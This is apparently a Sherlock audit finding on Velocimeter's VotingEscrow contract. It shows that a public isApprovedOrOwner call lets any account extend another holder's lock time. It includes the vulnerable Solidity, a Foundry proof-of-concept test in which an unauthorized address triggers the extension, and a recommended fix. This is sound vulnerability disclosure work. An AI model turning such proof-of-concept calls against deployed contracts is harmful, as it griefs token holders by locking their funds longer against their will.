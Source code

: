 Active Lace Hippo

Medium

# Unauthorized Accounts May Errantly Increase Unlock Time

## Summary

An unapproved account may errantly increase the [`end`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L30C14-L30C17) of a [`VotingEscrow`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol)'s [`LockedBalance`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L28C5-L31C6).

## Vulnerability Detail

Attempts to [`increase_unlock_time(uint256,uint256)`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L939) must be safeguarded by checks to ensure the `msg.sender` is the owner of the token or an approved operator:

```solidity
/// @notice Extend the unlock time for `_tokenId`
/// @param _lock_duration New number of seconds until tokens unlock
function increase_unlock_time(uint _tokenId, uint _lock_duration) external nonreentrant {
@>  assert(_isApprovedOrOwner(msg.sender, _tokenId));

    LockedBalance memory _locked = locked[_tokenId];
    uint unlock_time = (block.timestamp + _lock_duration) / WEEK * WEEK; // Locktime is rounded down to weeks

    require(_locked.end > block.timestamp, 'Lock expired');
    require(_locked.amount > 0, 'Nothing is locked');
    require(unlock_time > _locked.end, 'Can only increase lock duration');
    require(unlock_time <= block.timestamp + MAXTIME, 'Voting lock can be 52 weeks max');

    _deposit_for(_tokenId, 0, unlock_time, _locked, DepositType.INCREASE_UNLOCK_TIME);
}
```

However, these checks can be circumvented via calls to [`isApprovedOrOwner(address,uint256)`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L305):

```solidity
/// @dev Returns whether the given spender can transfer a given token ID
/// @param _spender address of the spender to query
/// @param _tokenId uint ID of the token to be transferred
/// @return bool whether the msg.sender is approved for the given token ID, is an operator of the owner, or is the owner of the token
function _isApprovedOrOwner(address _spender, uint _tokenId) internal returns (bool) {
@>  max_lock(_tokenId); /// @audit invokes_max_lock_without_access_cotrols

    address tokenOwner = idToOwner[_tokenId];
    bool spenderIsOwner = tokenOwner == _spender;
    bool spenderIsApproved = _spender == idToApprovals[_tokenId];
    bool spenderIsApprovedForAll = (ownerToOperators[tokenOwner])[_spender];
    return spenderIsOwner || spenderIsApproved || spenderIsApprovedForAll;
}

function isApprovedOrOwner(address _spender, uint _tokenId) external returns (bool) {
    return _isApprovedOrOwner(_spender, _tokenId);
}
```

In turn, we can see that [`max_lock(uint256)`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L912) is capable of errantly increasing the unlock time of a [`VotingEscrow`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol) token, provided [`max_lock_enabled`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L198):

```solidity
///@notice Extend the unlock time to max_lock_time for `_tokenId`
function max_lock(uint _tokenId) public {
@>  if(maxLockIdToIndex[_tokenId] !=0 && max_lock_enabled) {
@>      LockedBalance memory _locked = locked[_tokenId];
@>      uint unlock_time = (block.timestamp + MAXTIME) / WEEK * WEEK; // Locktime is rounded down to weeks
@>
@>      if(unlock_time > _locked.end) {
@>
@>          require(_locked.end > block.timestamp, 'Lock expired');
@>          require(_locked.amount > 0, 'Nothing is locked');
@>          require(unlock_time <= block.timestamp + MAXTIME, 'Voting lock can be 52 weeks max');
@>
@>          _deposit_for(_tokenId, 0, unlock_time, _locked, DepositType.INCREASE_UNLOCK_TIME);
@>      }
@>  }
}
```

To demonstrate this, the full proof of concept is provided below ([`VotingEscrow.t.sol`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/test/VotingEscrow.t.sol)):

```solidity
function testSherlockUnauthorizedDeltaMaxLock() public {
    flowDaiPair.approve(address(escrow), TOKEN_1);
    uint256 lockDuration = 7 * 24 * 3600; // 1 week

    // Balance should be zero before and 1 after creating the lock
    assertEq(escrow.balanceOf(address(owner)), 0);
    escrow.create_lock(TOKEN_1, lockDuration);
    assertEq(escrow.currentTokenId(), 1);
    assertEq(escrow.ownerOf(1), address(owner));
    assertEq(escrow.balanceOf(address(owner)), 1);

    escrow.max_lock(1);

    int amount;
    uint duration;
    (amount, duration) = escrow.locked(1);
    assertEq(duration, lockDuration);

    escrow.enable_max_lock(1);

    escrow.isApprovedOrOwner(address(owner),1);

    (amount, duration) = escrow.locked(1);
    assertEq(duration, 52 * 7 * 86400);

    escrow.max_lock(1);

    address c0ffee = address(0xc0ffee) /* unauthorized_account */;

    (amount, duration) = escrow.locked(1);

    assertEq(duration, 31449600);

    vm.warp(block.timestamp + 1 weeks);

    vm.startPrank(c0ffee);
        uint256 maliciousLockTime = 32_054_400;

        /// @notice As an unauthorized account, `c0ffee`
        ///         is not permitted to change the lock of
        ///         a token they are not approved for.
        vm.expectRevert();
            escrow.increase_unlock_time(1, 1 weeks);

        /// @audit However, calling `isApprovedOrOwner` will
        ///        circumvent these protections:
        escrow.isApprovedOrOwner(address(0) /* dont_care */, 1);
        (amount, duration) = escrow.locked(1);
        assertEq(duration, maliciousLockTime); /// @audit lock_time_is_increased

    vm.stopPrank();

}
```

## Impact

Malicious users can repeatedly grief any [`VotingEscrow`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol) token into greater unlock times against their will.

## Code Snippet

```solidity
/// @notice Extend the unlock time for `_tokenId`
/// @param _lock_duration New number of seconds until tokens unlock
function increase_unlock_time(uint _tokenId, uint _lock_duration) external nonreentrant {
    assert(_isApprovedOrOwner(msg.sender, _tokenId));

    LockedBalance memory _locked = locked[_tokenId];
    uint unlock_time = (block.timestamp + _lock_duration) / WEEK * WEEK; // Locktime is rounded down to weeks

    require(_locked.end > block.timestamp, 'Lock expired');
    require(_locked.amount > 0, 'Nothing is locked');
    require(unlock_time > _locked.end, 'Can only increase lock duration');
    require(unlock_time <= block.timestamp + MAXTIME, 'Voting lock can be 52 weeks max');

    _deposit_for(_tokenId, 0, unlock_time, _locked, DepositType.INCREASE_UNLOCK_TIME);
}
```

https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L296C9-L296C28

## Tool used

Manual Review

## Recommendation

The [`isApprovedOrOwner(address,uint256)`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L305) implementation should be restricted to a `view` function:

```diff
/// @dev Returns whether the given spender can transfer a given token ID
/// @param _spender address of the spender to query
/// @param _tokenId uint ID of the token to be transferred
/// @return bool whether the msg.sender is approved for the given token ID, is an operator of the owner, or is the owner of the token
- function _isApprovedOrOwner(address _spender, uint _tokenId) internal returns (bool) {
+ function _isApprovedOrOwner(address _spender, uint _tokenId) internal view returns (bool) {
-   max_lock(_tokenId);
-
    address tokenOwner = idToOwner[_tokenId];
    bool spenderIsOwner = tokenOwner == _spender;
    bool spenderIsApproved = _spender == idToApprovals[_tokenId];
    bool spenderIsApprovedForAll = (ownerToOperators[tokenOwner])[_spender];
    return spenderIsOwner || spenderIsApproved || spenderIsApprovedForAll;
}

- function isApprovedOrOwner(address _spender, uint _tokenId) external returns (bool) {
+ function isApprovedOrOwner(address _spender, uint _tokenId) external view returns (bool) {
    return _isApprovedOrOwner(_spender, _tokenId);
}
```
